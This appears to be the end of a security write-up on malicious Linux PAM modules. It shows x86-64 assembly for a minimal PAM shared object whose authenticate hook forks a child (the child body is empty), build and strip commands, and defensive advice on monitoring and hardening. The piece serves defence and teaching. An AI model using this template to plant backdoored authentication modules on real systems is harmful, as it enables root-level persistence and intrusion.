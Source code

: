 Final working assembly:
```nasm
BITS 64

global pam_sm_setcred
pam_sm_setcred:
  xor rax, rax
  ret

global pam_sm_authenticate
pam_sm_authenticate:
  mov rax, 57      ; sys_fork
  syscall
  test rax, rax
  jz child
  xor rax, rax
  ret             ; parent returns

child: 
```

Final build:
```sh
nasm elf_pam_so_x64_linked.s -f elf64 -o elf_pam_so_template_x64.o && \
     ld -s -T pam.ld -shared elf_pam_so_template_x64.o -o elf_pam_so_template.bin && \
     llvm-strip-13 --strip-all --strip-sections elf_pam_so_template.bin
```

## Defense Against These Dark Arts

Preventing and detecting malicious PAM modules is important, since PAM modules
run in the context of the calling process. This means that a malicious PAM
module inserted into the `sshd` chain runs as root by default.

The best defense is to prevent the installation of malicious PAM modules in the
first place. For the vulnerability that sparked this post, passive network
monitoring for cleartext downloads of shared objects would have been sufficient
to detect the attack. Really, any cleartext downloads of executable files is
cause for immediate concern and investigation. Even if the module is legitimate
one time, it might not be next time.

Assuming that the malicious module has already been downloaded to the machine,
active monitoring for changes to the PAM configuration is the next best option.
PAM configurations should be relatively stable once a system is configured, so
changes should at least get a second look, especially changes that reference
modules that aren't part of the default installation or used on other systems.

System hardening can reduce the impact of a successful implantation of a
malicious PAM module by reducing the privileges of the calling process. For
example, the `sshd` process could be restricted using SELinux policies to
prevent it from:
*   Writing to the sshd config
*   Writing to any user's `.ssh/authorized_keys`
*   Writing to `/etc/shadow` (or other sensitive files)
